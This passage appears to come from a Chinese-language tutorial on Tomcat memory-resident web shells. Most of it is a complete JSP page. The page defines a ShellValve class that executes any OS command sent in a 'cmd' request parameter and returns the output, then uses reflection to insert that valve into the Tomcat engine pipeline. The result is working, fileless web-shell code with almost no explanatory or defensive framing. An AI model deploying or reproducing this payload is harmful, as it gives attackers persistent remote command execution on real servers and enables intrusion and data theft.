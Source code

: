 接下来就是通过jsp来实现valve的内存马了，写法几乎一模一样

```jsp
<html>
<head>
    <title>JSP动态注入Valve</title>
</head>
<body>
<%!
    public class ShellValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            response.setContentType("text/plain");
            response.setCharacterEncoding("utf-8");
            String cmd = request.getParameter("cmd");
            try {
                // 执行系统命令
                Process process = Runtime.getRuntime().exec(cmd);
                // 读取命令输出
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                StringBuilder output = new StringBuilder();
                String line;
                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }

                // 等待命令执行完成
                int exitCode = process.waitFor();
                output.append("\n命令执行完成，退出码为 " + exitCode);
                // 输出命令输出结果到客户端
                response.getWriter().print(output.toString());
            } catch (IOException e) {
                e.printStackTrace();
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            getNext().invoke(request,response);
        }
    }
%>

<%
    try {
        Field fieldRequest = request.getClass().getDeclaredField("request");
        fieldRequest.setAccessible(true);
        Request req = (Request) fieldRequest.get(request);
        StandardContext standardContext= (StandardContext)req.getContext();
        StandardWrapper standardWrapper = (StandardWrapper) req.getWrapper();
        StandardHost standardHost = (StandardHost) standardContext.getParent();
        StandardEngine standardEngine = (StandardEngine) standardHost.getParent();
        // 向那个组件中添加，就使用哪个组件获取对应的StandardPipeline
        Valve shellValve = new ShellValve();
        standardEngine.getPipeline().addValve(shellValve);
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
</body>
</html>
```
